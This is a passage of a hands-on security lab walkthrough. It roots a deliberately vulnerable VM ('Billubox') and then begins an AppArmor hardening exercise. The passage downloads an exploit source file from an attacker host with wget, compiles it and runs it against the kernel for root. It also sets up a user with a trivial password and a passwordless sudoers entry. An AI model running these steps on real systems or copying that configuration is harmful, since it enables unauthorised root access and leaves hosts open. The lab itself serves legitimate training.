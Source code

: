 35. In the terminal window/tab where you have your Billubox shell, pull down the exploit:

    ```shell
    cd /tmp
    wget http://10.23.58.30/37292.c
    ```

36. Now, compile the exploit on Billubox and run the exploit against Billubox's kernel:

    ```shell
    gcc -o exploit 37292.c
    ./exploit
    ```

37. Congratulations! You've got root.  Now let's turn around and cut off an another attacker's ability to do what we just did, but proactively. We'll use AppArmor to create a profile for this web application so it can't run shell commands.

38. To start, add a user to the system:

    ```shell
    useradd -m user
    passwd user
    ```

39. Set a password that you'll remember, like, say, `user`, then add the user to the sudoers file:

    ```shell
    echo "user ALL=(ALL) NOPASSWD:ALL" >>/etc/sudoers
    ```

40. We are now going to create two terminal sessions to Billubox.  One will be for running `aa-genprof`, while the other will be for controlling or running the program we are going to exercise. We will ask you to start new terminal windows or tabs.  

41. Open up a new terminal window/tab on your Kali system and `ssh` into the billubox:

    ```shell
    ssh user@billubox
    ```

42. Sudo to the `root` user, using the hypen (-) to get `root`'s environment settings:

    ```shell
    sudo su -
    ```

43. Start up a second terminal window/tab and then do the same thing:

    ```shell
    ssh user@billubox
    ```

44. Sudo to the `root` user, using the hypen (-) to get `root`'s environment settings:

    ```shell
    sudo su -
    ```
